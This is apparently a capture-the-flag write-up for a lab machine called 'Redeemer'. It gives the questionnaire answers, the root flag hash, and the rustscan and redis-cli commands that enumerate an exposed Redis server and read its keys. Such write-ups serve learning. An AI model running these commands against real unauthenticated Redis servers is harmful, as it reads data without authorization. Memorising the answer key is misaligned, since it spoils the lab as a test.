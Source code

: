 # Redeemer

## Questionnaire

##### Which TCP port is open on the machine?

```
6379
```

##### Which service is running on the port that is open on the machine?

```
redis
```

##### What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

```
In-memory Database
```

##### Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

```
redis-cli
```

##### Which flag is used with the Redis command-line utility to specify the hostname?

```
-h
```

##### Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

```
info
```

##### What is the version of the Redis server being used on the target machine?

```
5.0.7
```

##### Which command is used to select the desired database in Redis?

```
select
```

##### How many keys are present inside the database with index 0?

```
4
```

##### Which command is used to obtain all the keys in a database?

```
keys *
```

##### Submit root flag

```
03e1d2b376c37ab3f5319922053953eb
```

## Commands

### Scan

```
$ rustscan -a 10.129.70.165

PORT     STATE SERVICE REASON
6379/tcp open  redis   syn-ack
```

### Version

```
$ redis-cli -h 10.129.70.165 info | grep redis_version

redis_version:5.0.7
```

### Keys

```
$ redis-cli -h 10.129.70.165 -n 0 keys '*'

1) "numb"
2) "flag"
3) "temp"
4) "stor"
```

### Flag

```
$ redis-cli -h 10.129.70.165 -n 0 get flag

"03e1d2b376c37ab3f5319922053953eb"
```
